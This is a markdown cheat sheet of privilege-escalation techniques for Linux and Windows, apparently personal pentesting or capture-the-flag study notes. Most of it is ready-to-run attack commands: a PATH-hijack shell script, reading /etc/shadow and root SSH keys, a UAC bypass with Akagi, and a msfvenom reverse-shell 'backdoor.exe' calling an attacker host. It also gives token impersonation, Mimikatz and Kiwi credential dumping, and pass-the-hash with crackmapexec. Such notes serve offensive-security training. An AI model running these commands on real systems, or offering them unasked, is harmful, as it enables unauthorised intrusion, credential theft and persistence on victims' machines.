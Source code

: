 # Privilege Escalation
### Linux
- `sudo -l `
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)



### Windows 
<details>
<summary>UAC Bypass</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- UACME
  - Prerequisites:
    1.  User must be a member of the Administrators group.
       - `net localgroup administrators`
    2. Full interactive shell with the victim (a common nc.exe shell is not enough).
       - You can use meterpreter
  - Procedure
    1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
       - `ps` to show process 
       - (ex. `migrate <PID explorer.exe>`)
    3. Upload Akagi (Akagi64.exe if x64)
    3. Create payload with msfvenom
       - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
    5. Use exploit/multi/handler to start a listener
    6. Akagi64.exe 23 <payload_full_path>
       - **NOTE FULL PATH**
    7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
      
</details>

<details>
<summary>Impersonate Tokens</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
- `impersonate_token <token_name>`
- You may need to migrate process to a <user> process
  - Ex. `getpid` -> 2628, `ps` ->
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid 2948`
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

</details>

<details>
<summary>Password in configuration file (Unattend.xml)</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)
      
</details>

<details>
<summary>Credential Dumping (Mimikatz - Kiwi - Hashdump)</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) Method (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords -> `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam`
   - `sekurlsa::logonpasswords`

</details>

<details>
<summary>Pass the Hash</summary>

Useful for persinstence...
1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit -> windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash -> `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format
  
</details>


- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

# Resource
https://juggernaut-sec.com/blog/
Resource | Description 
--- | ---
[GTFOBins](https://gtfobins.github.io/) | GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) | Linux Privilege Escalation Awesome Script
[pspy](https://github.com/DominicBreuker/pspy) | Monitor linux processes without root permissions
[Priv2Admin](https://github.com/gtworek/Priv2Admin)  | Windows Privileges with Windows OS privileges

